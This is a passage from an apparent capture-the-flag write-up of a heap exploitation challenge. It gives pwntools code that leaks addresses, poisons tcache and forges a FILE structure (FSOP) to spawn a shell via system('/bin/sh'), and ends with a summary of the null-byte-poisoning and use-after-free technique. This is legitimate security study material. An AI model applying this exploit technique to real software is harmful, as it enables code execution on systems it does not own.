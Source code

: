 ```python
create(0,0xf8)
view(14)

r.recvuntil(b'Data: ')
temp = unpack(r.recv(6),'all')
elf.address  = obfuscate(temp,stack_leak) + 0x60ea2433c000 - 0x60ea2433d160
log.critical(f'elf.address = {hex(elf.address)}')

write_into(14,pack(elf.sym.chunks+0x10))
create(2,0xf8)
write_into(2,pack(elf.sym.chunks+0x10)+pack(libc.sym['_IO_2_1_stdout_'])+pack(0)*(16-4)+p16(0x1f0)*16)
#######################################################################################3#3
                           ######### Performing FSOP ###########
stdout_lock = libc.sym['_IO_2_1_stdout_'] + 0x250	# _IO_stdfile_1_lock  (symbol not exported)
stdout = libc.sym['_IO_2_1_stdout_']
fake_vtable = libc.sym['_IO_wfile_jumps']-0x18
gadget = libc.address + 0x00000000001724f0 # add rdi, 0x10 ; jmp rcx

fake = FileStructure(0)
fake.flags = 0x3b01010101010101
fake._IO_read_end = libc.sym.system
fake._IO_save_base = gadget
fake._IO_write_end=u64(b'/bin/sh\x00')	# will be at rdi+0x10
fake._lock = stdout_lock
fake._codecvt= stdout + 0xb8
fake._wide_data = stdout_lock+0x18
fake.unknown2=p64(0)*2+p64(stdout+0x20)+p64(0)*3+p64(fake_vtable)
payload = bytes(fake)
#############################################################################################
write_into(3,payload[:0x1e0])

r.interactive()
```

`For FSOP` → https://pwn.college/software-exploitation/file-struct-exploits/, https://blog.kylebot.net/2022/10/22/angry-FSROP/, https://chovid99.github.io/posts/stack-the-flags-ctf-2022/.

---

## **.;,;.** Summary

- In this challenge, we tackled a heap-based binary with a `chunks` table and size tracking. Using **tcache mechanics and view functionality**, we easily leaked **heap** and **libc** addresses.

- However, a `limit` pointer blocked writes to memory above a certain point. 

- While reading data into a chunk, we identified a **null byte poisoning** bug, **which we used** to create **overlapping chunks**, enabling a **Use-After-Free (UAF)** primitive.

- We then exploited **tcache bin behavior**, especially how malloc updates the bin head using the chunk's `fd` pointer. This allowed us to **indirectly leak a stack address** from libc’s `.data` section. By reversing the pointer obfuscation, we recovered a valid stack pointer and used it to leak an **ELF address**.
